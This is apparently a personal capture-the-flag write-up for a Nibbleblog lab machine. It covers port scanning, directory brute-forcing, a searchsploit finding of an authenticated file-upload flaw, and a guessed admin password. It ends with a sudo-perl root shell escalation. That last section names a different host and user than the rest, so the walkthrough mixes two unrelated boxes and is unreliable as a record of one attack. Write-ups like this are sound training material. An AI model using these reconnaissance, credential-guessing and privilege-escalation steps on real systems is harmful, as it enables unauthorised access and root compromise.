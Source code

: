 ## Nmap Port Scanning
- <mark>Basic Scan</mark>
```bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ nmap -Pn -sV -sC -T4 10.10.10.75 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 10:54 EDT
Nmap scan report for 10.10.10.75
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
```
#### 80/tcp  http  Apache httpd 2.4.18 ((Ubuntu))
- Viewing the Source code of index.html, we can find one interesting comment. ![[Pasted image 20230901105938.png]]
- <mark>Directory Brute-Forcing</mark>
	- Enumerate interesting directories and file under `/nibbleblog`
	```bash
	┌──(saxon㉿Saxon)-[~/Desktop]
	└─$ gobuster dir -u http://10.10.10.75/nibbleblog  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x .php,xml 
	\===============================================================
	Gobuster v3.5
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.10.75/nibbleblog
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.5
	[+] Extensions:              php,xml
	[+] Timeout:                 10s
	===============================================================
	2023/09/01 13:16:02 Starting gobuster in directory enumeration mode
	===============================================================
	/.php                 (Status: 403) [Size: 301]
	/index.php            (Status: 200) [Size: 2987]
	/sitemap.php          (Status: 200) [Size: 402]
	/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
	/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
	/feed.php             (Status: 200) [Size: 302]
	/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
	/admin.php            (Status: 200) [Size: 1401]
	/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
	/install.php          (Status: 200) [Size: 78]
	/update.php           (Status: 200) [Size: 1622]
	/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
	```
	- `admin.php` and `/content` are of particular interest to us. One can find  `/content` has directory listing enabled and, under `/content/private/users.xml`, one can see there is a user called `admin` but password is unknown.<br>![[Pasted image 20230901132330.png]]
- <mark>Exploitation</mark>
	- <mark>Does NOT Work</mark>SQL-injection with URL `http://10.10.10.75/nibbleblog/index.php?controller=blog&action=view&category=uncategorised` !?![[Pasted image 20230901110246.png]]
	- `searchsploit` reveals that `nibbleblog` version 4.0.3 is associated with a `arbitrary file upload` vulnerability but requires valid credentials.
	```bash
	┌──(saxon㉿Saxon)-[~/Desktop]
	└─$ searchsploit nibbleblog
	
	Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)              
	```
	- One can confirm the website is indeed running  `nibbleblog` version 4.0.3 by visiting the URL `http://10.10.10.75/nibbleblog/README`![[Pasted image 20230901125814.png]]
	- We got username `admin` through enumeration but <mark>(!IMPORTANT)</mark> password is `nibbles` but relies on lucky guess and that is the stupid part about this box.
	- Now, we can either use Metasploit module or generate our own payload and upload via admin dashboard. 
- <mark>Post-Exploitation</mark>'
```bash
#misconfigured SUDO permission
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
#run following commands
sudo perl -e 'exec "/bin/sh";'
```